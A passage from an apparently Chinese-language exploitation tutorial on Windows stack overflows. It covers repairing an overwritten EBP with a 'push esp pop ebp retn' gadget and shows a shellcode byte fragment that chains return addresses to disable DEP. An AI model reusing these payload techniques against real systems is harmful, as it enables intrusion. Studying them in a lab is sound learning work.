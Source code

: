 这是由于覆盖掉了ebp, retn时将0x90909090 pop到ebp, 需要将ebp定位到一个可写地址
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-005.png)

用OllyFindAddr检索"545D"指令, 在0x5d1d8b85找到一个"push esp pop ebp retn"指令
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-006.png)

但造成retn后, esp位于高地址, 当有入栈操作时会覆盖掉传递的参数, shellcode作如下修改
```
...
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

发现shellcode尾部的关键跳会被覆盖掉, 传入参数能关闭DEP, 但失去跳转到shellcode入口的机会
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-007.png)